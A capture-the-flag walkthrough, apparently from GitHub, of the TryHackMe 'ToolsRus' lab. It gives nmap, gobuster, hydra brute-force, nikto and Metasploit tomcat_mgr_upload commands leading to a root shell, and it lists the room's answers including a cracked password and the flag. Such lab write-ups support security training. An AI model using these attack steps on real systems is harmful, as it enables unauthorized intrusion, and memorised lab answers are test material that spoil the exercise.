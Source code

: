 # ToolsRus Wlakthrough
### Link
- https://tryhackme.com/room/toolsrus
------------------------
### Nmap
- sudo nmap -sC -sV -p- [IP]
- Open port :   
    - 80
    - 1234 --> Apache Tomcat/Coyote JSP engine 1.1
    - 8009 --> Apache Jserv (Protocol v1.3)
- Picture: [ToolsRus_walkthrough_1.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_1.png)
- What other port that serves a webs service is open on the machine?
    - **Answers**: 1234
- What is the server version (run the scan against port 80)?
    - **Answer**: Apache/2.4.18
- What version of Apache-Coyote is this service using?
    - **Answer**: 1.1
------------------------
### Dirbuster
- sudo gobuster dir -u http://[IP]:[Port] -w [path]/wordlists/dirbuster/directory-list-2.3-medium.txt
- Picture: [ToolsRus_walkthrough_2.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_2.png)
- What directory can you find, that begins with a "g"?
    - **Answers**: /guidelines
- Whose name can you find from this directory?
**Answers**: bob
- What directory has basic authentication?
    - **Answer**: /protected
------------------------
### hydra
- sudo hydra -l bob -P  [path]wordlists/rockyou.txt -f 10.10.248.249 http-get /protected/
- Picture: [ToolsRus_walkthrough_3.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_3.png)
- What is bob's password to the protected part of the website?
    - **Answers**: bubbles
- Going to the service running on that port, what is the name and version of the software?
- Picture: [ToolsRus_walkthrough_4.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_4.png)
    - **Answer**: Apache Tomcat/7.0.88
------------------------
### nikto
- Log to manager with bob credentials
- Picture: [ToolsRus_walkthrough_5.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_5.png)
- sudo nikto -h http://10.10.23.90:1234/manager/html/ -id "bob:bubbles"
- How many documentation files did Nikto identify?
    - **Answer**: 5
------------------------
### Metasploit
- Search exploit for tomcat
    - search type:exploit name:tomcat
    - Picture: [ToolsRus_walkthrough_6.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_6.png)
- Select exploit/multi/http/tomcat_mgr_upload
    - use exploit/multi/http/tomcat_mgr_upload
    - Picture: [ToolsRus_walkthrough_7.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_7.png)
- Check settings we need to define
    - show options
    - Picture: [ToolsRus_walkthrough_8.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_8.png)
- As we can see we have : HttpPasswrod / HttpUsername / RHOSTS / RPORT / LHOSTS
    - set HttpPassword bubbles
    - set HttpUsername bob
    - set RHOSTS [IP]
    - set RPORT 1234
    - set LHOSTS [local IP machine]
        - - Picture: [ToolsRus_walkthrough_9.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_9.png) , [ToolsRus_walkthrough_10.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_10.png)
        - Let's double check if we indicate all information
        - [ToolsRus_walkthrough_11.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_11.png)
- Execute the payload
    - execution
    - [ToolsRus_walkthrough_12.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_12.png)
- When the payload is active, type these commands
    - shell
    - id
    - [ToolsRus_walkthrough_13.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_13.png)
- What user did you get a shell as?
    - **Answer**: root
- What text is in the file /root/flag.txt
    - cd root
    - ls
    - cat flag.txt
    - [ToolsRus_walkthrough_14.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_14.png)
    - **Answer**: ff1fc4a81affcc7688cf89ae7dc6e0e1